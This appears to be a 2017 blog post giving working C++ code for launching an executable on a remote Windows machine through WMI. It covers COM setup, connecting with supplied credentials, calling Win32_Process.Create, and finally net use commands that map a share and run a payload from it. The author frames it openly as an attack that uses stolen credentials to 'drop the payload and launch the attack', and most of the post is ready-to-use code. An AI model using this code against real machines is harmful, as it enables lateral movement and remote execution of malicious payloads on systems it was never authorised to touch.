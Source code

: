 ```yaml
---
layout: post
title: Launching a payload on remote machine using WMI
date: 2017-12-29
category: CodeSamples
---
```


Here's a sample on how to launch a custom executable/payload on a remote machine using WMI. Obviously, valid credentials have to be stolen first before you can connect to the remote machine. The user who is trying to access the remote machine, should be a member of the Local administrators group on the remote machine. 

Here are the basic steps:
1. The first step is to initialize the COM infrastructure.

    //-- Initialize COM.
	hres = CoInitializeEx(0, COINIT_MULTITHREADED);
	if (FAILED(hres))
	{
		cout << "\nFailed to initialize COM library. Error code = 0x"
			<< hex << hres << endl;
		return 1;                  // Program has failed.
	}
	cout << "\nCOM initialised";

	//-- Set general COM security levels
	hres = CoInitializeSecurity(
		NULL,
		-1,                          // COM authentication
		NULL,                        // Authentication services
		NULL,                        // Reserved
		RPC_C_AUTHN_LEVEL_DEFAULT,   // Default authentication 
		RPC_C_IMP_LEVEL_IDENTIFY,    // Default Impersonation  
		NULL,                        // Authentication info
		EOAC_NONE,                   // Additional capabilities 
		NULL                         // Reserved
		);

2. Next, create an instance of the Wbem locator and connect to the "root\cimv2" WMI namespace of the remote machine. Since we were connecting to a remote machine, the namespace should be fully qualified : "\\\\<server>\\root\\cimv2"



	//-- Obtain the WMI locator to pointer
	hres = CoCreateInstance(
		CLSID_WbemLocator,
		0,
		CLSCTX_INPROC_SERVER,
		IID_IWbemLocator, (LPVOID *)&pLoc);

	//-- Preparing the connection parameters
	wstrConnectPath.assign(L"\\\\");
	wstrConnectPath.append(wstrMachineName);
	wstrConnectPath.append(L"\\root\\cimv2");

	//-- Connect to the remote root\cimv2 namespace and obtain pointer pSvc to make IWbemServices calls.
	hres = pLoc->ConnectServer(
		_bstr_t(wstrConnectPath.c_str()),
		_bstr_t(wstrUserName.c_str()),		// User name
		_bstr_t(wstrPassword.c_str()),		// User password
		NULL,								// Locale             
		NULL,								// Security flags
		NULL,	//_bstr_t(wstrDomainAuth.c_str()),	// Authority        
		NULL,                              // Context object 
		&pSvc                              // IWbemServices proxy
		);

3. After you retrieve a pointer to an IWbemServices proxy, you must set the security on the proxy to access WMI on the remote machine through the proxy. This step is compulsary because IWbemServices proxy will only grants access to an out-of-process or remote object if the security properties are correct.

    // Ref: https://msdn.microsoft.com/en-us/library/aa393619(v=vs.85).aspx
	
	authIdent.PasswordLength = wcslen(wstrPassword.c_str());
	authIdent.Password = (USHORT*)wstrPassword.c_str();
	authIdent.UserLength = wcslen(wstrUserName.c_str());
	authIdent.User = (USHORT*)wstrUserName.c_str();
	authIdent.DomainLength = 0;   //<-- size of domain name
	authIdent.Domain = (USHORT*) NULL;   //<-- this should be domain name	
	authIdent.Flags = SEC_WINNT_AUTH_IDENTITY_UNICODE;
	userAcct = &authIdent;


	//-- Set security levels on the new WMI connection
	hres = CoSetProxyBlanket(
		pSvc,                           // Indicates the proxy to set
		RPC_C_AUTHN_DEFAULT,            // RPC_C_AUTHN_xxx
		RPC_C_AUTHZ_DEFAULT,            // RPC_C_AUTHZ_xxx
		COLE_DEFAULT_PRINCIPAL,         // Server principal name 
		RPC_C_AUTHN_LEVEL_PKT_PRIVACY,  // RPC_C_AUTHN_LEVEL_xxx 
		RPC_C_IMP_LEVEL_IMPERSONATE,    // RPC_C_IMP_LEVEL_xxx
		userAcct,                       // client identity  <--- ideally you have to create COAUTHIDENTITY  class 
		EOAC_NONE                       // proxy capabilities 
		);

4. If you have a pointer to the IWbemServices proxy - it means you have a successful connection to the WMI namespace on the remote machine. To drop the payload and launch the attack - you need to be able to create a process on the remote machine first. I've seperated this part into a function of its own, you pass in the IWbemServices proxy, and the process name and arguments as input. Refer to the function snippet below:

    /*-Refernce : https://msdn.microsoft.com/en-us/library/aa390421(v=vs.85).aspx -*/
    DWORD CreateProcessOnRemote(IWbemServices *pSvc, std::wstring wstrProcessName, std::wstring wstrProcessArgs)
    {
        HRESULT hres = 0;
        BSTR MethodName = SysAllocString(L"Create");
        BSTR ClassName = SysAllocString(L"Win32_Process");
        IWbemClassObject* pClass = NULL;
        IWbemClassObject* pInParamsDefinition = NULL;
        IWbemClassObject* pClassInstance = NULL;
        IWbemClassObject* pOutParams = NULL;
        std::wstring wstrCommandLine = wstrProcessName + L" " + wstrProcessArgs;
        VARIANT varCommand;
        VARIANT varReturnValue;

        hres = pSvc->GetObject(ClassName, 0, NULL, &pClass, NULL);
        //-- if above call is success, we are able to enumerate Win32_Process class in root\cimv2 on the remote machine
        if (FAILED(hres))
        {
            cout << "\n pSvc->GetObject failed."
                << " Error code = 0x"
                << hex << hres << endl;
            goto cleanup;
        }

        hres = pClass->GetMethod(MethodName, 0, &pInParamsDefinition, NULL);
        //-- if above call is success, we have a pointer to the Create method of Win32_Process class
        if (FAILED(hres))
        {
            cout << "\n pClass->GetMethod failed."
                << " Error code = 0x"
                << hex << hres << endl;
            goto cleanup;
        }


        hres = pInParamsDefinition->SpawnInstance(0, &pClassInstance);
        //-- Spawn instance of the Win32_Process::Create Parameters.
        if (FAILED(hres))
        {
            cout << "\n pInParamsDefinition->SpawnInstance failed."
                << " Error code = 0x"
                << hex << hres << endl;
            goto cleanup;
        }

        // Create the values for the in-parameters	
        varCommand.vt = VT_BSTR;
        varCommand.bstrVal = _bstr_t(wstrCommandLine.c_str());
        //-- you can also pass CurrentDirectory and ProcessStartupInformation (Win32_ProcessStartup)
        //-- See https://msdn.microsoft.com/en-us/library/aa389388(v=vs.85).aspx


        //-- Store the value for the in-parameters
        hres = pClassInstance->Put(L"CommandLine", 0, &varCommand, 0);
        if (FAILED(hres))
        {
            cout << "\n   pClassInstance->Put failed."
                << " Error code = 0x"
                << hex << hres << endl;
            goto cleanup;
        }

        cout << "\nThe command is:" << wstrCommandLine.c_str() << endl;

        //-- Execute Method	
        hres = pSvc->ExecMethod(ClassName, MethodName, 0, NULL, pClassInstance, &pOutParams, NULL);
        //-- if this call is successfull, then we have executed the method on the remote machine
        if (FAILED(hres))
        {
            cout << "\n  pSvc->ExecMethod failed."
                << " Error code = 0x"
                << hex << hres << endl;
            goto cleanup;
        }

        hres = pOutParams->Get(_bstr_t(L"ReturnValue"), 0, &varReturnValue, NULL, 0);
        if (FAILED(hres))
        {
            cout << "\n   pOutParams->Get failed."
                << " Error code = 0x"
                << hex << hres << endl;
        }
        cout << "\n Process return value:" << varReturnValue.intVal; 

    cleanup:
        VariantClear(&varCommand);
        SysFreeString(ClassName);
        SysFreeString(MethodName);

        if (pClass != NULL)
        {
            pClass->Release();
        }

        if (pClassInstance != NULL)
        {
            pClassInstance->Release();
        }

        if (pInParamsDefinition != NULL)
        {
            pInParamsDefinition->Release();
        }

        if (pOutParams != NULL)
        {
            pOutParams->Release();
        }

        return hres;
    }

5. Now all you need is the actual command to launch the payload. The approach I've used in my sample is to map a network share, and then launch the payload from that share. This involves running the following commands in sequence:

    net use \\<servername>\<sharename> /user:<username> <password>
    \\<servername>\<sharename>\<payload.exe> <switches>
    net use \\<servername>\<sharename> /delete

6. Once the process is launched, you decide what the payload must do. This code simply cleans up and exits. 


For full source, refer: https://github.com/VimalShekar/Cpp/tree/master/src/WmiRemoteProcessLaunch